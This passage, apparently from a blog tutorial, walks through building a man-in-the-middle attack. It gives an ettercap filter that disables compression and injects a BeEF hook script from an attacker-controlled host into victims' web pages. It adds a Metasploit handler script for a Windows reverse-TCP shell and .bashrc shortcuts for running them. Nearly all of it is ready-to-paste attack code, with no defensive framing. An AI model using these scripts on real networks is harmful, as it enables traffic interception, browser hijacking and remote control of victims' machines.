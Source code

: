 {% highlight ruby %}
nano ~/filters/http
{% endhighlight %}

Now copy and paste the code.

{% highlight ruby %}
if (ip.proto == TCP && tcp.dst == 80)
{
	if (search(DATA.data, "Accept-Encoding"))
	{
	replace("Accept-Encoding", "Accept-Nothing!"); 
	}
}
if (ip.proto == TCP && tcp.src == 80)
{
	if (search(DATA.data, "</head>"))
	{
	replace("</head>", "</head><script src="http://MYIP:3000/hook.js"></script> ");
	msg("BEEF Hooked");
	}
}
{% endhighlight %}

Save .bashrc with Ctrl+O and exit with Ctrl+X.

<b>Careate a Metasploit RC script</b>

Start by opening a new file file

{% highlight ruby %}
nano ~/msfscripts/payload_http.rc
{% endhighlight %}

Copy and paste the following

{% highlight ruby %}
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST MYIP
set LPORT MYPORT
exploit
{% endhighlight %}

Save with Ctrl+O and exit with Ctrl+X.

<b>Making life easier with the .bashrc file</b>

Now open the .bashrc file and add the following varibles

{% highlight ruby %}
#Metaspoit Paths

export msf_path=/var/www/html;
export msf_rc_path="$HOME/msfscripts";

#Metasploit Files

msf_rc_http="payload_http.rc";

#Metasploit Varibles

function msf_platform () { echo "windows"; }
lport="3333";
{% endhighlight %}
